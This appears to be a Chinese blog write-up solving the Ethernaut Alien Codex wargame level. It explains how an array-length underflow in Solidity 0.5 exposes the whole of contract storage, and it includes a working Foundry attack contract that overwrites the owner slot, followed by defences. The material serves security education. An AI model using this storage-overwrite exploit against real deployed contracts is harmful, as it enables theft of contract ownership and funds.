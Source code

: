 ```yaml
---
title: 'Ethernaut Level 19: Alien Codex - 动态数组存储操纵'
date: 2025-01-25 16:40:00
updated: 2025-01-25 16:40:00
categories:
  - Ethernaut 系列
  - 进阶攻击篇 (11-20)
tags:
  - Ethernaut
  - Foundry
  - Storage Manipulation
  - Array Underflow
  - 智能合约安全
  - Solidity
series: Ethernaut Foundry Solutions
excerpt: "利用 Solidity 0.5.0 版本中的整数下溢漏洞，将动态数组的长度扩展到整个合约存储空间。通过精确计算存储槽位，实现对 `owner` 变量的覆盖，掌握 Alien Codex 关卡的破解技巧。"
---
```


# 🎯 Ethernaut Level 19: Alien Codex - 动态数组存储操纵

> **关卡链接**: [Ethernaut Level 19 - Alien Codex](https://ethernaut.openzeppelin.com/level/19)  
> **攻击类型**: 存储操纵 / 整数下溢  
> **难度**: ⭐⭐⭐⭐⭐

## 📋 挑战目标

本关的目标是获取 `AlienCodex` 合约的所有权。这是一个继承了 `Ownable` 的合约，`owner` 存储在 slot 0。

![Alien Codex Requirements](https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg)

## 🔍 漏洞分析

`AlienCodex` 合约使用了一个旧的 Solidity 版本 (`^0.5.0`)，这意味着整数操作不会进行溢出检查。这是本关的核心漏洞。合约的存储布局如下：

| Slot | 变量名    | 类型        | 说明                                     |
| :--- | :-------- | :---------- | :--------------------------------------- |
| 0    | `contact` | `bool`      | 与 `owner` 打包在同一个槽位              |
| 0    | `owner`   | `address`   | 继承自 `Ownable`，位于 slot 0            |
| 1    | `codex`   | `bytes32[]` | 动态数组，slot 1 存储其长度              |

合约中的函数都受到 `contacted` 修饰符的限制，我们必须先调用 `makeContact()` 将 `contact` 设置为 `true`。

关键漏洞在 `retract()` 函数中：

```solidity
// From AlienCodex.sol (Solidity v0.5.0)
function retract() public contacted {
    codex.length--;
}
```

由于没有溢出检查，如果 `codex.length` 为0，执行 `codex.length--` 会导致整数下溢，使其长度变为 `2**256 - 1`。一个长度为 `2**256 - 1` 的动态数组可以覆盖整个合约的存储空间！

拥有一个可以写到任意存储位置的数组后，我们的目标是覆盖 slot 0 中的 `owner` 变量。我们需要找到哪个数组索引 `i` 对应于存储槽 `0`。

动态数组的数据存储位置是从 `keccak256(p)` 开始的，其中 `p` 是数组长度所在的槽位。在本例中，`codex` 的长度存储在 slot 1，所以它的数据起始位置是 `keccak256(1)`。

-   `codex[0]` 存储在 `keccak256(1)`
-   `codex[i]` 存储在 `keccak256(1) + i`

我们想写入的位置是 slot 0。因此，我们需要找到一个索引 `i`，使得 `keccak256(1) + i` 在 `2**256` 的模运算下等于 `0`。

`keccak256(1) + i = 2**256`
`i = 2**256 - keccak256(1)`

一旦我们计算出这个索引 `i`，我们就可以调用 `revise(i, our_address)` 来将 `owner` 修改为我们自己的地址。

## 💻 Foundry 实现

### 攻击合约代码

攻击合约将执行上述的三个步骤：建立联系、触发下溢、计算索引并修改 `owner`。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/19_AlienCodex.sol";

contract AlienCodexTest is Test {
    AlienCodex instance;
    Attack attacker;
    address player;

    function setUp() public {
        player = vm.addr(1);
        instance = new AlienCodex();
        assertNotEq(instance.owner(), player);
        attacker = new Attack(address(instance));
    }

    function testAttack() public {
        vm.startPrank(player);
        attacker.attack();
        vm.stopPrank();
        assertEq(instance.owner(), player);
    }
}

contract Attack {
    AlienCodex public instance;

    constructor(address _instanceAddress) {
        instance = AlienCodex(_instanceAddress);
    }

    function attack() public {
        // 1. 成为联系人，绕过 modifier
        instance.makeContact();

        // 2. 调用 retract() 触发数组长度下溢
        instance.retract();

        // 3. 计算覆盖 slot 0 所需的索引
        uint256 slot0_index;
        unchecked {
            slot0_index = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
        }

        // 4. 调用 revise() 将 owner 修改为我们的地址
        instance.revise(slot0_index, bytes32(uint256(uint160(msg.sender))));
    }
}
```

### 关键攻击步骤

1.  **调用 `makeContact()`**: 解除对其他函数的调用限制。
2.  **调用 `retract()`**: 在 `codex` 数组为空时调用，利用整数下溢将数组长度变为 `type(uint256).max`。
3.  **计算目标索引**: 计算出能让数组访问“环绕”到存储槽0的索引 `i = 2**256 - keccak256(1)`。
4.  **调用 `revise()`**: 使用计算出的索引和 `player` 的地址作为参数调用 `revise`，这会覆盖 slot 0 的内容，从而改变 `owner`。

## 🛡️ 防御措施

1.  **使用安全的Solidity版本**: 从 `0.8.0` 版本开始，Solidity 默认会对所有算术运算进行上溢和下溢检查。这是防止此类漏洞最简单、最有效的方法。
2.  **使用 `SafeMath` 库**: 如果必须使用旧版本的Solidity，应始终使用 `SafeMath` 或类似的库来执行所有算术运算，以防止溢出。
3.  **谨慎处理动态数组**: 动态数组的存储管理很复杂。应避免允许用户直接控制可能导致存储冲突的操作，如无限制地增加或减少数组长度。

## 🔧 相关工具和技术

-   **整数溢出 (Overflow/Underflow)**: 在旧版本Solidity中一个非常常见的漏洞类别。当一个整数变量增加超过其最大值（上溢）或减少到小于其最小值（下溢）时发生。
-   **动态数组的存储布局**: 理解动态数组的长度和数据是如何在存储中布局的，是发现和利用存储操纵漏洞的关键。
-   **`keccak256`**: EVM中用于计算哈希的核心函数，它在确定存储位置时扮演着重要角色。
-   **Foundry `unchecked`**: 在Solidity `^0.8.0` 中，可以使用 `unchecked` 块来故意允许溢出，这在复现旧版本漏洞或进行特定位操作时很有用。

## 🎯 总结

**核心概念**:
-   旧版Solidity（<0.8.0）的整数运算默认不检查溢出。
-   动态数组的长度可以被操纵，以访问合约的整个256位存储空间。
-   合约的存储槽位可以通过 `keccak256` 哈希进行确定性计算。

**攻击向量**:
-   通过整数下溢一个动态数组的长度，获得对合约任意存储位置的写权限。
-   计算出指向 `owner` 变量所在存储槽（slot 0）的数组索引。
-   调用数组的写函数（`revise`）来覆盖 `owner`。

**防御策略**:
-   始终使用最新的、安全的Solidity版本。
-   如果使用旧版本，必须使用 `SafeMath`。
-   对所有外部输入进行严格的验证，特别是那些影响状态变量（如数组长度）的输入。

## 📚 参考资料

-   [Solidity Docs: Mapping and Dynamic Arrays](https://docs.soliditylang.org/en/v0.5.0/internals/layout_in_storage.html#mappings-and-dynamic-arrays)
-   [Consensys: Integer Overflow and Underflow](https://consensys.net/diligence/blog/2018/05/integer-overflow-and-underflow/)